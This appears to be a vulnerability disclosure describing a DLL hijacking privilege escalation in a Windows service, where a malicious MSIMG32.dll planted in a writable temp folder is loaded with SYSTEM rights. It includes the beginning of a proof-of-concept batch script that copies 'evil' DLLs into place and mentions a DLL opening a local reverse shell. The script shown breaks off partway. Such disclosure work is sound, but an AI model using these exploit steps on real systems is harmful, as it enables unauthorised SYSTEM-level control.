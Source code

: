 <img src="imgs/sendmagiclnsusvc.png" width="600px">


A quick analysis using the free Process Monitor (Procmon) tool from the Sysinternal suite (https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) reveals that the process attempted to load the "MSIMG32.dll" binary from the "C:\Windows\Temp" folder. 

<img src="imgs/MSIMG32.dll.png" width="600px">

Since the "MSIMG32.dll" binary doesn’t exist "NAME NOT FOUND" and the "C:\Windows\TEMP" folder is writable by all users (FILE_ADD_FILE attribute), it is possible to plant an arbitrary DLL into this folder to perform DLL Hijacking attacks. When the special control code "136" will be sent to the service, the evil DLL "C:\Windows\Temp\MSIMG32.dll" will be loaded by the service with SYSTEM privileges.

### Exploitation

To exploit this vulnerability, a PoC (bath script) has been developed to automate the process of planting the malicious "MSIMG32.dll" and sending the control code to the service using different stages and commands sequences. Another evil DLL "evilDS.dll" was also used to start a reverse TCP shell locally (127.0.0.1) to interact and issue commands in the context of Local System. This DLL will be loaded once the "MSIMG32.dll" is being called with success by the service. 

Source code of the PoC:
```shell
@echo off
set currentPath=%~dp0
set evildll=%currentPath%evilDS.dll
set msimg32dll=%currentPath%MSIMG32.dll

echo [+] Displaying the user you are currently logged in
whoami
echo [+] Displaying the privileges granted to the current user
whoami /priv
echo [+] Copying the malicious DLLs...
xcopy /q /y %evildll% C:\TEMP
```